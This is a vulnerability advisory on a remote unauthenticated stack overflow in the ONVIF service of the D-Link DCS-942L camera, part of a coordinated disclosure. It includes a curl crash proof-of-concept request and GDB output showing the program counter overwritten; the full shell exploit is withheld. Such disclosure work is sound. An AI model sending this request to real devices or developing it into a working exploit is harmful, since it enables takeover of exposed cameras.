 # Remote stack overflow on D-Link cameras #

* _Authors_: Roberto Paleari ([@rpaleari](https://twitter.com/rpaleari)) and Aristide Fattori ([@joystick](https://twitter.com/joystick))
* _Release date_: 10/11/2015

This issue concerns a stack-based buffer overflow on D-Link cameras. The
vulnerability affects the [Onvif](http://www.onvif.org/) service, which is
exposed on the WAN side and accessible with no authentication. In other terms,
the vulnerability can be exploited by remote, unauthenticated attackers to gain
`root` access on the affected devices.

We tested this vulnerability on D-Link camera DCS-942L, but other models are
probably affected as well.

## Vulnerability details ##

The root cause of the vulnerability is a `vsprintf(str, "%s", input)` function
call, where `str` is a fixed-size stack variable while `input` is the
attacker-controlled input request buffer. An attacker can thus reliably overwrite a
code pointer on the stack (e.g., the saved `lr` register) to hijack the
execution flow.

The vulnerable `vsprintf()` function is invoked by `BaseCgilet::Term()` (from
`libcgilet.so`). In the following, we trigger the exploit starting from
`Soaplet::onUpdateSettings()`, which in turn invokes `BaseCgilet::Term()` when
an input XML document cannot be properly parsed. Other code paths
may exist that lead to the vulnerable function call.

## Exploitation ##

A program crash can be triggered quite simply and reliably. As an example,
consider the following command-line:

	curl -d @poc-crash.xml -k -v https://<target IP>/onvif/device_service --header 'Content-Type: application/soap+xml; charset=utf-8; action="http://www.onvif.org/ver10/device/wsdl/GetSystemDateAndTime"'

The `poc-crash.xml` XML document is available [here](poc-crash.xml). This
request makes the target CGI binary overflow the stack buffer, overwriting the
saved `lr` value with dummy data. In the following GDB run, all the registers
with value `0x58585858` and `0x41414141` come from the input XML document.

	# gdb --args ./device_service
	(gdb) run < poc.xml
	ret != IXML_SUCCESS: 12
	!_soapDump:
	<s:Envelope xmlns:s="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAXXXX">

	Program received signal SIGSEGV, Segmentation fault.
	0x58585858 in ?? ()
	(gdb) info registers
	r0             0x214    532
	r1             0x0      0
	r2             0x0      0
	r3             0x0      0
	r4             0x41414141       1094795585
	r5             0x82588  533896
	r6             0x82cd8  535768
	r7             0x0      0
	r8             0x0      0
	r9             0x0      0
	r10            0xb6fff000       3070226432
	r11            0x41414141       1094795585
	r12            0xb6f8e418       3069764632
	sp             0xbefff888       0xbefff888
	lr             0x58585858       1482184792
	pc             0x58585858       0x58585858
	cpsr           0x60000010       1610612752

We also developed a working exploit which spawns a shell. However, we just
provide a screenshot of the exploit here, without the complete PoC: the device is
configured with very limited protections, so it is not very difficult to
develop a fully weaponized exploit.

![Screenshot](dcs.png)

## Affected models ##

We confirm the D-Link DCS-942L camera model is affected. More specifically, we
tested the exploit on firmware version 1.25 (hardware revision A). This was the
most recent firmware version available when the vulnerability was found.

Other device models are probably vulnerable as well, but they were not tested.

## Timeline ##

- 25 Aug: Notified D-Link, proposed a 60-days disclosure (deadline set to October 26, 2015).

- 26 Aug: D-Link replied.

- 26 Aug: Sent details to D-Link.

- 27 Aug: D-Link confirmed the vulnerability.

- 14 Sep: Asked for a confirmation for the proposed deadline.

- 24 Sep: D-Link replied, stating that patching was still in progress.

- 12 Oct: Asked for a new update about the ongoing patching, and a confirmation for the proposed deadline.

- 16 Oct: D-Link replied, asking for an extension until November 09, 2015.

- 16 Oct: Confirmed the new deadline (November 09, 2015).

- 10 Nov: Disclosure.

